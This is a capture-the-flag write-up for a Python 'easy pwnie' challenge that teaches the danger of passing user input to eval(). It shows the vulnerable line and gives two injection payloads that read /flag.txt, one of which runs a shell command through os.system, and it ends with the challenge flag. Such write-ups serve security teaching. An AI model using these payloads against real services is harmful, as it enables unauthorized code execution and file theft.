

# easy pwnie (200) - pwn

Total solves - 31

Final score - 143

## Description
Can you print the flag?

Flag is at `/flag.txt` on the nc server

`nc ctf.copsiitbhu.co.in 31142`

Author - kn1gh7

## Atachments
easy_pwnie.py

## Box and Port
ctf.copsiitbhu.co.in:31142

## Writeup
The challenge is intended to teach the risks associated with improper use of eval
> Line 4
```python
ans = eval(input("Do you want the flag? ")) # input here would be evaluated in python
```
The challenge takes one step furthur from `very easie pwnie` and now needs python specific input. Two possible inputs were: 

`open('/flag.txt', 'r').read()`

`__import__('os').system('cat /flag.txt')`



## FLAG
COPS{ur_pwn13_54y5_n31ghhh}
